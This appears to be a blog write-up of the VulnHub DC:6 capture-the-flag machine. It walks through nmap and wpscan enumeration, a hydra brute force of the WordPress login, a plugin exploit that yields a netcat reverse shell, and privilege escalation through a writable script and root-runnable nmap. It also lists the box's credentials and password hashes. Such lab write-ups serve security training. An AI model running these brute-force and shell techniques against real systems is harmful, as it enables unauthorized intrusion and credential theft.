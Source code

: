 [VulnHub] DC: 6
===============
date: 10/Sep/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_dc6/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

2\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
```
admin, graham, mark, sarah and jens
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot01.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
```
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
```
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot04.png.webp)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
```
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot02.png.webp)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot03.png.webp)  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot16.png.webp)  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

![writeup.exploitation.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot08.png.webp)  

![writeup.exploitation.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot09.png.webp)  

![writeup.exploitation.steps.6.3](/static/files/posts_vulnhub_dc6/screenshot05.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
```
wpdbuser/meErKatZ
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_dc6/screenshot06.png.webp)  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot07.png.webp)  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
```
graham/GSo7isUM1D4
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot11.png.webp)  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot12.png.webp)  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

![writeup.privesc.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot13.png.webp)  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

![writeup.privesc.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot14.png.webp)  

![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot15.png.webp)  

## Loot
### Hashes
```
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
```
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
* <https://www.vulnhub.com/entry/dc-6,315/>  
* <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  
